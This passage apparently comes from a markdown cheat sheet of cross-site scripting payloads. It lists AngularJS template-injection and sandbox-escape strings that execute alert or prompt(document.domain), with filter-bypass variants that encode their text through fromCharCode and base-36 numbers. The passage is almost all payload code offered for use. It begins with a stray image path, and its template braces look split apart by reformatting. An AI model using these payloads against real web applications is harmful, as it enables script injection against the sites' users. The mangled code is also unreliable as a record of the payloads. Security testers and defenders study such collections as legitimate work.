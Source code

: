 ```javascript
{
  {
    constructor.constructor("alert(1)")();
  }
}
```

### Advanced bypassing XSS

AngularJS (without `'` single and `"` double quotes) by [@Viren](https://twitter.com/VirenPawar_)

```javascript
{
  {
    x = valueOf.name.constructor.fromCharCode;
    constructor.constructor(x(97, 108, 101, 114, 116, 40, 49, 41))();
  }
}
```

AngularJS (without `'` single and `"` double quotes and `constructor` string)

```javascript
{
  {
    x = 767015343;
    y = 50986827;
    a = x.toString(36) + y.toString(36);
    b = {};
    a.sub.call.call(
      b[a].getOwnPropertyDescriptor(b[a].getPrototypeOf(a.sub), a).value,
      0,
      toString()[a].fromCharCode(
        112,
        114,
        111,
        109,
        112,
        116,
        40,
        100,
        111,
        99,
        117,
        109,
        101,
        110,
        116,
        46,
        100,
        111,
        109,
        97,
        105,
        110,
        41
      )
    )();
  }
}
```

